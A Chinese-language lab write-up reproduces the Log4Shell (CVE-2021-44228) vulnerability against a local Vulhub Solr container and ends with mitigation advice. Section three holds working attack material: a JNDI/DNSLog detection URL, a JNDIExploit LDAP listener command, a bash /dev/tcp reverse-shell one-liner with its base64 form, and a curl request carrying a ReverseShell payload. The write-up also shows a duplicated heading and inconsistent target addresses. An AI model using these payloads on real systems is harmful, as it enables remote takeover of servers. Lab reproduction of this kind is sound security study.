## Log4Shell（CVE-2021-44228）漏洞复现


## 一、漏洞概述

### 1.1 漏洞基本信息

- **漏洞编号**：CVE-2021-44228
- **漏洞名称**：Log4Shell（Log4j2 远程代码执行漏洞）
- **漏洞等级**：严重（CVSS 评分 10.0）
- **影响范围**：Apache Log4j2 2.0-beta9 ~ 2.14.1 版本
- **核心危害**：攻击者通过向目标系统传入含特殊表达式的参数，触发 Log4j2 对 JNDI 协议的解析，实现远程代码执行（RCE），完全控制目标服务器。

### 1.2 漏洞原理

Log4j2 作为 Java 主流日志框架，支持解析 `${}` 格式的表达式（如 `${env:PATH}`）。其中 `${jndi:xxx}` 表达式会触发 JNDI 协议调用，攻击者构造含恶意 JNDI 链接的请求参数（如 `${jndi:ldap://攻击机IP:1389/恶意类}`），目标系统的 Log4j2 在记录该参数时，会无条件解析表达式并访问远程 LDAP/RMI 服务器，下载并执行恶意代码，最终实现远程代码执行。

#### 1.3 什么是 JNDI？

JNDI（Java Naming and Directory Interface）是 Java 提供的一个目录服务 API，用于查找远程或本地的资源，例如数据库连接、Java 类对象等。

开发者常用 JNDI 加载远程对象：

```
Context ctx = new InitialContext(); Object obj = ctx.lookup("ldap://example.com/Exploit");
```

#### 1.4 什么是 LDAP？

LDAP（Lightweight Directory Access Protocol）是一个目录访问协议，类似轻量级数据库，用于按层次结构组织数据。

在 JNDI 中，LDAP 是一种常见的协议类型，用于查找远程 Java 对象。


#### 1.3 什么是 JNDI？

攻击者自行搭建一个伪装成“正常 LDAP 服务”的恶意服务器，向 Log4j 发起的 JNDI 请求返回包含 恶意 Java 类字节码 的响应。

这段 Java 类在被加载后可能执行以下恶意行为：

下载远程 payload 并运行；

执行 Runtime.getRuntime().exec("反弹shell命令")；

打开反向连接，建立远程 shell；

植入后门、执行加密脚本等。

该服务通常使用工具快速搭建，如：

JNDI-Injection-Exploit

marshalsec 工具

自定义 Java 服务器


#### 1.4危害分析

远程代码执行（最高权限）；

可被用于反弹 shell，获取目标系统控制权；

在某些高权限 Java 应用中，可读取环境变量、配置文件、数据库账号等敏感信息；

利用门槛低，易于批量自动化扫描和攻击；

大量企业、政府和云服务（如 Elasticsearch、Apache Solr、Spring Boot 应用等）都曾受影响。


## 二、实验环境准备

### 2.1 环境信息

- **操作系统**：Kali Linux 2025（IP：192.168.101.131）

- **漏洞靶场**：Vulhub Log4j2 CVE-2021-44228 环境

- 核心工具

  - Docker + Docker Compose（搭建靶场）
  - JNDIExploit（JNDI 注入工具，监听 LDAP 服务）
  - curl（发送恶意请求）

  

### 2.2 环境搭建步骤

#### （1）安装 Docker 及 Docker Compose（Kali 系统）

```
apt-get install docker.io
systemctl start docker      #启动docker
systemctl status docker.service    #检查docker状态

//为docker换源
sudo mkdir -p /etc/docker  # 创建 Docker 配置目录
sudo vi /etc/docker/daemon.json  # 编辑配置文件

{
  "registry-mirrors": [
        "https://docker.sunzishaokao.com",
        "https://docker.1ms.run",
        "https://docker.1panel.live",
        "https://docker.anyhub.us.kg"
  ]
}


sudo systemctl daemon-reload  # 重新加载系统服务配置
sudo systemctl restart docker  # 重启 Docker 服务
sudo systemctl status docker  # 检查 Docker 服务状态

docker info

apt install docker-compose   # 下载docker compose


```











#### （2）下载 Vulhub 靶场（国内镜像加速）

```
# 替换 GitHub 镜像，提升下载速度
wget https://gitee.com/bdtl/vulhub/repository/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master/log4j/CVE-2021-44228
```







#### （3）启动靶场容器

```
# 编写最简 docker-compose.yml 配置（解决镜像兼容问题）
cat > docker-compose.yml << EOF
services:
  solr:
    image: vulhub/solr:8.11.0
    ports:
      - "8983:8983"
      - "5005:5005"
EOF

# 启动容器
docker compose up -d

# 验证端口监听（确认服务启动）
netstat -tulpn | grep 8983
```

**关键说明**：容器启动后虽存在 `jattach/lsof/熵值不足` 警告，且 Solr 可视化页面无法显示，但 8983 端口已被 `docker-proxy` 监听（0.0.0.0:8983），核心接口可正常接收请求，不影响漏洞触发。



#### （3）准备 JNDI 注入工具

1、直接使用下面的地址下载java 1.8：

https://repo.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz

2、建立目录，将下载的jdk的安装包复制过去并进行解压



3、配置环境变量（注意下面的版本号要与自己下载的相同）

打开文件/etc/profile

```
sudo nano /etc/profile
```


添加下列代码到文件中

```
JAVA_HOME=/usr/local/java/jdk1.8.0_202

PATH=$PATH:$HOME/bin:$JAVA_HOME/bin

export JAVA_HOME

export PATH
```



4、通知系统Java的位置

update-alternatives: --install 需要 <链接> <名称> <路径> <优先级>

```
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_202/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_202/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_202/bin/javaws" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_202/bin/javaws" 1
```



5、切换JDK版本

```
update-alternatives --config java
```



6、从本地导入JNDIExploit-1.2-SNAPSHOT.jar




## 三、漏洞复现过程

### 3.1 测试 Log4j漏洞是否存在

  我们打开 DNSLOG ：



我们点击这里的获取子域名，获取一个新的子域名。

 接下来构造一条访问 Apache Solr 管理接口的 URL，其中参数部分注入恶意表达式尝试获取 Java版本号：

```
http://<受害机IP>:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.<通过DNSLOG获取的子域名>}
```

查看DNSLog平台，点击Refresh Record，发现出现了访问记录，这是服务端发起了请求，说明**此处存在JDNI注入**



#### 3.2 Log4j 后端解析行为

当这条 URL 被 Apache Solr 记录到日志时，由于这个组件使用了受影响版本的 Log4j 2.x（2.0~2.14.1），就会自动执行以下操作：

看到 ${...}，触发 Lookups 字符串解析

识别 ${jndi:...} → 启用 JNDI 查找机制

拼接结果如下：

${sys:java.version} → 1.8.0_102 所以最终是：ldap://1.8.0_102.l1j8ay.dnslog.cn

Log4j 使用 JNDI 发起一个 LDAP 查询

为解析该域名，目标服务器发起 DNS 查询

查询记录被你在 DNSLog 平台上捕获，证明漏洞已被触发


#### 3.3利用JNDI注入工具

启动 LDAP 监听服务

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.101.128 -l 1390 -p 8181
```



构造 payload

将反弹 Shell 命令 Base64 编码后嵌入 JNDI payload，避免特殊字符失效 #

反弹 Shell 命令：

```
bash -i >& /dev/tcp/攻击机IP/9999 0>&1
```



编码结果示例：YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMS4xMjgvOTk5OSAwPiYx

```
curl 'http://192.168.101.136:8080/hello?payload=${jndi:ldap://192.168.101.128:1390/Basic/ReverseShell/192.168.101.128/9999}'
```





## 四、修复建议

### 4.1 临时修复

1. 设置 JVM 参数：`-Dlog4j2.formatMsgNoLookups=true`，禁用 Log4j2 表达式解析功能；
2. 配置环境变量：`LOG4J_FORMAT_MSG_NO_LOOKUPS=true`；
3. 移除 Log4j2 核心依赖包中 JNDI 相关类：`rm -rf log4j-core-*.jar/org/apache/logging/log4j/core/lookup/JndiLookup.class`。

### 4.2 永久修复

1. 升级 Log4j2 至安全版本（2.15.0 及以上）；
2. 限制服务器对外的 JNDI/LDAP/RMI 协议访问，禁止目标系统访问恶意远程服务器；
3. 对用户输入参数进行严格过滤，拦截 `${jndi:}` 等恶意表达式。

## 五、总结

Log4Shell 漏洞作为「核弹级」漏洞，具有利用门槛低、影响范围广、危害极大的特点。本次复现验证了即使靶场可视化页面异常，只要核心接口可接收参数，漏洞仍可被成功利用。企业应优先升级 Log4j2 版本，并加强输入过滤和网络访问控制，避免漏洞被恶意利用。